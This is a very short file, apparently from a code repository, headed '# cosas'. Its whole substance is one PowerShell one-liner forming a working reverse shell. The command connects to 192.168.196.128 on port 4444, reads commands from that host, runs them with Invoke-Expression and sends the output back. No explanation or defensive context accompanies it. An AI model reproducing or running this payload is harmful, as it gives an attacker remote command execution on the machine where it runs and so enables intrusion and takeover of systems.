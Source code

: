 # cosas
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.196.128', 4444); $stream = $client.GetStream(); $writer = New-Object System.IO.StreamWriter($stream); $reader = New-Object System.IO.StreamReader($stream); while ($true) { $writer.WriteLine($reader.ReadLine()); $writer.Flush(); $input = $reader.ReadLine(); if ($input -eq 'exit') { break; } else { $output = Invoke-Expression $input; $writer.WriteLine($output); $writer.Flush(); } } $client.Close()"



